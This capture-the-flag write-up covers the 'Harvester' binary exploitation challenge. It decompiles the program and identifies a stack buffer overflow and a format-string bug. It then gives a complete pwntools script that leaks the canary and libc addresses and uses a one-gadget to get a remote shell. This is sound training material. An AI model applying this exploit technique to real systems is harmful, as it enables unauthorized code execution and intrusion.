

<div align="center">
    <h1>Harvester</h1>
     
</div>

---

```txt
These giant bird-looking creatures come once a day and harvest everything from our farms, leaving nothing but soil behind. We need to do something to stop them, otherwise there will be no food left for us. It will be even better instead of stopping them, tame them and take advantage of them! They seem to have some artificial implants, so if we hack them, we can take advantage of them. These creatures seem to love cherry pies for some reason..
This challenge will raise 43 euros for a good cause.
```

---

## Table of Contents

- [Table of Contents](#table-of-contents)
- [recon](#recon)
  - [code & behaviour](#code--behaviour)
    - [`main`](#main)
    - [`harvest`](#harvest)
    - [`inventory`](#inventory)
    - [`stare`](#stare)
    - [`fight`](#fight)
  - [vulns](#vulns)
    - [buffer overflow](#buffer-overflow)
    - [format string vulnerability](#format-string-vulnerability)
- [exploit](#exploit)
  - [script](#script)
  - [result](#result)

## recon

### code & behaviour

A bit of static & dynamic reversing gives us the following *major* functions and their respective behaviour:

#### `main`

```c
undefined8 main(void)
{
  long in_FS_OFFSET;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  printf("\x1b[1;36m");
  printstr(s__A_wild_Harvester_appeared_00101378);
  harvest();
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

#### `harvest`

```c
void harvest(void)
{
  long in_FS_OFFSET;
  int tmp;
  undefined8 canary;
  
  canary = *(undefined8 *)(in_FS_OFFSET + 0x28);
  while( true ) {
    while( true ) {
      while( true ) {
        check_pie(pie);
        tmp = 0;
        menu();
        __isoc99_scanf("%d",&tmp);
        if (tmp != 2) break;
        inventory();
      }
      if (tmp < 3) break;
      if (tmp == 3) {
        stare();
      }
      else {
        if (tmp != 4) goto LAB_00100ef0;
        run();
      }
    }
    if (tmp != 1) break;
    fight();
  }
LAB_00100ef0:
  printf("\x1b[1;31m");
  printstr("This was never an option!\n");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```


#### `inventory`

```c
void inventory(void)
{
  long in_FS_OFFSET;
  int num;
  char buf [3];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  num = 0;
  show_pies(pie);
  printstr("\nDo you want to drop some? (y/n)\n> ");
  read(0,buf,2);
  if (buf[0] == 'y') {
    printstr("\nHow many do you want to drop?\n> ");
    __isoc99_scanf("%d",&num);
    pie = pie - num;
    if (pie < 1) {
      printstr(s__You_dropped_all_your_!_00101205);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    show_pies(pie);
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```


#### `stare`

```c
void stare(void)
{
  long in_FS_OFFSET;
  undefined buf [40];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  printf("\x1b[1;36m");
  printstr("\nYou try to find its weakness, but it seems invincible..");
  printstr("\nLooking around, you see something inside a bush.");
  printf("\x1b[1;32m");
  printstr(s__[+]_You_found_1_!_0010129a);
  pie = pie + 1;
  if (pie == 0x16) {
    printf("\x1b[1;32m");
    printstr("\nYou also notice that if the Harvester eats too many pies, it falls asleep.");
    printstr("\nDo you want to feed it?\n> ");
    read(0,buf,0x40);
    printf("\x1b[1;31m");
    printstr("\nThis did not work as planned..\n");
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```



#### `fight`

```c
void fight(void)
{
  long in_FS_OFFSET;
  undefined8 buf;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  buf = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  printf("\x1b[1;36m");
  printstr("\nChoose weapon:\n");
  printstr(s__[1]_[2]_[3]_[4]_>_00101138);
  read(0,&buf,5);
  printstr("\nYour choice is: ");
  printf((char *)&buf);
  printf("\x1b[1;31m");
  printstr("\nYou are not strong enough to fight yet.\n");
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```


### vulns

You have probably already spotted the two vulnerabilities we are going to use to redirect code execution and open ourselves a shell on the target. Anyway, I still listed and summarized them down below:

#### buffer overflow

Looking more closely at `stare`, we see that, if we have exactly `22` pies, the `read` function is called to read `0x40` = `64` bytes into a buffer that's only `40` bytes long. This probably allows us to modify the stored `rip`:

```c
...
  undefined buf [40];
...
  read(0,buf,0x40);
...
```

#### format string vulnerability

Furthermore, the `fight` function uses `printf` incorrectly - in such a way that a user-controlled input is passed to `printf` as it's first parameter. We can therefore use *format strings* such as `%s` or `%p` to leak values / addresses from memory. Sadly the format string we input can only be `5` characters long, so this will limit what we can do with it.

```c
...
  read(0,&buf,5); 
...
  printf((char *)&buf);
...
```

## exploit

All that's left for us to do is to unite the vulnerabilities we found above into one singular exploit script that finally opens the shell we have been longing for... ^^ Let's go through how we could achieve this step-by-step:

1. Since this challenge binary has `stack canaries` (as indicated by the decompiled source-code or `checksec`) enabled to prevent stack corruption, the first thing we should do is to leak the value of the canary by using the format string vulnerability in the `fight` function. We can simply use a format string like `%<offset>$p` to disclose it.


2. Next, still using the format string vulnerability, we should leak a return pointer from the stack, since this allows us to compute the binary's base - we can overcome `PIE` and calculate the position of any symbol in memory.
3. Since neither the `/bin/sh` string nor the `system` function are included in the binary, the next thing we do should be to leak an address from the GOT to calculate `libc`'s base as well. Now, simply doing this with our format string vulnerability seems a bit unreasonable, we can, however, simply use our buffer overflow to store an arbitrary address on the stack and then return to the `harvest` menu. 
4. Now knowing `libc`'s base, we can conduct a `ret2libc` attack. We can't do the regular `pop rdi` with `/bin/sh` and return to `system`, however, since only `64` bytes are read and this actually allows us to use only *one* return address (`40` bytes buffer + `8` bytes stack canary + `8` bytes `rbp` + `8` bytes `rip` = `64` bytes). Fear not, however, since we can simply use one of the *one gadgets* we find in the provided `libc`.


5. Profit!

### script

```python
#!/usr/bin/env python3

from pwn import *

# ================================ #
CANARY_OFF: int     = 0xb
HARV_OFF: int       = 0xd
HARV_FROM_BASE: int = 0x77
CALL_HARV_MAIN: int = 0x43
RIP_OFF: int        = 0x38
PRINTF_OFF: int     = 0x10
ONE_GADGET: int     = 0x4f3d5
# ================================ #

def prompt(r: tubes.tube.tube) -> None:
    r.recvuntil(b'> ')

def fix_pie(r: tubes.tube.tube) -> None:
    prompt(r)
    r.sendline(b'2')
    r.recvuntil(b'have: ')
    num: int = int(r.recvuntil(b' ').decode())
    prompt(r)
    r.sendline(b'y')
    prompt(r)
    r.sendline(str(num-21))

def format_leak(r: tubes.tube.tube, off: int) -> int:
    prompt(r)
    r.sendline(b'1')
    prompt(r)
    r.sendline(f'%{off}$p'.encode())
    r.recvuntil(b'choice is: ')
    return int(r.recvuntil(b'\x1b[1;31m')[:-7].decode(), 16)

def raw_format_leak(r: tubes.tube.tube, off: int) -> int:
    prompt(r)
    r.sendline(b'1')
    prompt(r)
    r.sendline(f'%{off}$s'.encode())
    r.recvuntil(b'choice is: ')
    return u64(r.recvuntil(b'\x1b[1;31m')[:-7].ljust(8, b'\x00'))

def rop_to(r: tubes.tube.tube, target: int, canary: int, rbp: int = u64(b'x'*8), pad: bytes = b'x') -> None:
    prompt(r)
    r.sendline(b'3')
    prompt(r)
    r.sendline(pad[:1]*(RIP_OFF-0x10) + p64(canary) + p64(rbp) + p64(target))

def main():
    p: ELF = ELF('./harvester')
    l: ELF = ELF('./libc.so.6')
    r = remote('188.166.172.13', 31769)

    canary: int = format_leak(r, CANARY_OFF)
    print(f'[*] Leaked canary = 0x{canary:x} ... ')

    harvest: int = format_leak(r, HARV_OFF) - HARV_FROM_BASE
    print(f'[*] Leaked harvest @ 0x{harvest:x} ... ')
    p.address = harvest - p.sym['harvest']
    print(f'[*] Got binary base = 0x{p.address:x} ... ')

    fix_pie(r)
    rop_to(r, p.sym['main']+CALL_HARV_MAIN, canary, rbp=p.sym['got.printf'], pad=b'\x00')

    printf: int = raw_format_leak(r, PRINTF_OFF)
    print(f'[*] Leaked got.printf @ 0x{printf:x} ... ')
    l.address = printf - l.sym['printf']
    print(f'[*] Got libc base = 0x{l.address:x} ... ')

    fix_pie(r)
    rop_to(r, l.address+ONE_GADGET, canary)
    r.interactive()

if __name__ == '__main__':
    main()
```

### result


<h4 align="center">
    CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}
</h4>

---

... m4ttm00ny (April 2021)
